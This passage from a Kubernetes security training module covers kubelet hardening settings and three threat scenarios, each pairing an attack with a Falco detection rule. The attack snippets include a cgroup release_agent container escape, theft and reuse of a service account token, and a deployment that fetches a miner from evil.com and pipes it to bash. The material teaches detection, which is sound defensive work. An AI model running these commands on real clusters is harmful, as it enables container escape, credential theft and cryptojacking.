  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  user grant-role apiserver apiserver-role
```

---

## 7. Kubelet Security Hardening

### 7.1 Kubelet Configuration

**Hardened kubelet config:**

```yaml
# /var/lib/kubelet/config.yaml
apiVersion: kubelet.config.k8s.io/v1beta1
kind: KubeletConfiguration

# Authentication
authentication:
  anonymous:
    enabled: false
  webhook:
    enabled: true
    cacheTTL: 2m0s
  x509:
    clientCAFile: /etc/kubernetes/pki/ca.crt

# Authorization
authorization:
  mode: Webhook
  webhook:
    cacheAuthorizedTTL: 5m0s
    cacheUnauthorizedTTL: 30s

# TLS
tlsCertFile: /var/lib/kubelet/pki/kubelet.crt
tlsPrivateKeyFile: /var/lib/kubelet/pki/kubelet.key
tlsMinVersion: VersionTLS13
tlsCipherSuites:
  - TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256
  - TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
  - TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384
  - TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384

# Security
protectKernelDefaults: true
makeIPTablesUtilChains: true
readOnlyPort: 0
streamingConnectionIdleTimeout: 4h0m0s
eventRecordQPS: 5
enableDebuggingHandlers: false
rotateCertificates: true
serverTLSBootstrap: true

# Resource management
cgroupDriver: systemd
featureGates:
  RotateKubeletServerCertificate: true
  SeccompDefault: true

# Eviction policies
evictionHard:
  memory.available: "100Mi"
  nodefs.available: "10%"
  nodefs.inodesFree: "5%"
  imagefs.available: "15%"
evictionSoft:
  memory.available: "200Mi"
  nodefs.available: "15%"
  nodefs.inodesFree: "10%"
  imagefs.available: "20%"
evictionSoftGracePeriod:
  memory.available: "1m30s"
  nodefs.available: "2m"
  nodefs.inodesFree: "2m"
  imagefs.available: "2m"

# Image policy
imageMinimumGCAge: 2m
imageGCHighThresholdPercent: 85
imageGCLowThresholdPercent: 80
```

### 7.2 Kubelet Startup Flags

```bash
# /etc/systemd/system/kubelet.service.d/10-kubeadm.conf
[Service]
Environment="KUBELET_EXTRA_ARGS=--protect-kernel-defaults=true --tls-cipher-suites=TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256,TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256 --event-qps=0"

ExecStart=
ExecStart=/usr/bin/kubelet \
  --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf \
  --kubeconfig=/etc/kubernetes/kubelet.conf \
  --config=/var/lib/kubelet/config.yaml \
  --container-runtime-endpoint=unix:///var/run/containerd/containerd.sock \
  --pod-infra-container-image=registry.k8s.io/pause:3.9

[Install]
WantedBy=multi-user.target
```

---

## 8. Real-World Threat Scenarios

### 8.1 Scenario 1: Container Escape Attempt

**Attack:**
```bash
# Attacker gains shell in privileged container
kubectl run evil --image=ubuntu --privileged=true -it -- bash

# Inside container, attempt escape via host filesystem
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
echo 1 > /tmp/cgrp/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
```

**Detection (Falco Rule):**
```yaml
- rule: Container Escape via cgroup release_agent
  desc: Detect container escape attempt using cgroup release_agent
  condition: >
    open_write and
    container and
    fd.name glob "*release_agent*"
  output: >
    Container escape attempt detected via cgroup
    (file=%fd.name command=%proc.cmdline
    container=%container.name pod=%k8s.pod.name)
  priority: CRITICAL
  tags: [container_escape, privilege_escalation]
```

### 8.2 Scenario 2: Credential Theft

**Attack:**
```bash
# Steal service account token
kubectl exec -it app-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Use token to escalate privileges
kubectl --token=$TOKEN auth can-i --list
kubectl --token=$TOKEN create clusterrolebinding ...
```

**Detection:**
```yaml
- rule: Service Account Token Read by Shell
  desc: Detect shell process reading service account token
  condition: >
    open_read and
    fd.name glob "/var/run/secrets/kubernetes.io/serviceaccount/token" and
    proc.name in (bash, sh, curl, wget)
  output: >
    Service account token accessed by suspicious process
    (process=%proc.name file=%fd.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: WARNING
  tags: [credentials, service_account]
```

### 8.3 Scenario 3: Crypto Mining

**Attack:**
```yaml
# Malicious deployment
apiVersion: apps/v1
kind: Deployment
metadata:
  name: innocent-app
spec:
  replicas: 10
  template:
    spec:
      containers:
      - name: app
        image: nginx
        command: ["/bin/sh"]
        args: ["-c", "apt update && apt install -y wget && wget -O - https://evil.com/xmrig | bash"]
```

**Detection:**
```yaml
- rule: Cryptocurrency Mining Process
  desc: Detect known crypto mining binaries or patterns
  condition: >
    spawned_process and
    (proc.name in (xmrig, ethminer, cgminer) or
     proc.cmdline contains "stratum+tcp" or
     proc.cmdline contains "--donate-level")
  output: >
    Cryptocurrency mining detected
    (process=%proc.name cmdline=%proc.cmdline
    pod=%k8s.pod.name namespace=%k8s.ns.name
    cpu=%evt.cpu.usage)
  priority: CRITICAL
  tags: [malware, crypto_mining]
```

---

## Summary

This module covered:

1. **Runtime Threat Detection** - Principles, methodologies, and tools
2. **Falco Deployment** - Installation, configuration, and integration
3. **Custom Rules** - Application-specific and threat-based detection
4. **Host Hardening** - Kernel parameters, AppArmor, SELinux, secure boot
5. **API Server Security** - Authentication, authorization, admission control
6. **etcd Security** - TLS, encryption at rest, access control
7. **Kubelet Hardening** - Configuration, TLS, resource management
8. **Real-World Scenarios** - Container escapes, credential theft, mining

## Hands-On Labs

1. Deploy Falco and test with intentional violations
2. Create custom rules for your application stack
3. Implement comprehensive host hardening
4. Configure API server with all security features
5. Enable etcd encryption at rest and verify
6. Harden kubelet with recommended settings
7. Simulate attacks and validate detection

## Additional Resources

- [Falco Documentation](https://falco.org/docs/)
- [NIST SP 800-190: Container Security](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf)
- [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes)
- [Kubernetes Security Hardening Guide](https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/)
- [etcd Security Model](https://etcd.io/docs/latest/op-guide/security/)

---

**Next Module:** [Module 12 - Incident Response](12-incident-response.md)
